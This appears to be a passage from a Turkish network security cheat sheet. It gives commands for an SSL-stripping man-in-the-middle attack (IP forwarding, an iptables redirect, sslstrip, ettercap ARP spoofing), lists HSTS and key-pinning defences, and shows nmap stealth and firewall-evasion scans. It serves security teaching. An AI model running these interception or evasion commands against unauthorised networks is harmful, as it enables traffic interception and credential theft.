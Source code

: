 ### 🕵️ Man-in-the-Middle (MITM)

**SSL Strip Saldırısı**:
```bash
# sslstrip kurulumu
apt-get install sslstrip

# Traffic yönlendirme
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

# sslstrip başlatma
sslstrip -l 8080

# ARP spoofing ile birlikte
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//
```

**Korunma**:
```bash
# HSTS (HTTP Strict Transport Security)
Strict-Transport-Security: max-age=31536000; includeSubDomains

# Certificate pinning
# Public key pinning
Public-Key-Pins: pin-sha256="base64+primary=="; pin-sha256="base64+backup=="; max-age=5184000
```

---

## 🛠️ Ağ Güvenlik Araçları

### 🔍 Network Scanning

**Nmap Gelişmiş Kullanım**:
```bash
# Stealth SYN scan
nmap -sS -T4 -A -v target.com

# UDP scan
nmap -sU --top-ports 1000 target.com

# Script scanning
nmap --script vuln target.com
nmap --script ssl-enum-ciphers -p 443 target.com
nmap --script http-enum target.com

# Timing templates
nmap -T0  # Paranoid (çok yavaş)
nmap -T1  # Sneaky (yavaş)
nmap -T2  # Polite (normal)
nmap -T3  # Normal (varsayılan)
nmap -T4  # Aggressive (hızlı)
nmap -T5  # Insane (çok hızlı)

# Firewall evasion
nmap -f target.com                    # Fragment packets
nmap -D RND:10 target.com            # Decoy scan
nmap --source-port 53 target.com     # Source port manipulation
nmap --data-length 25 target.com     # Append random data
```
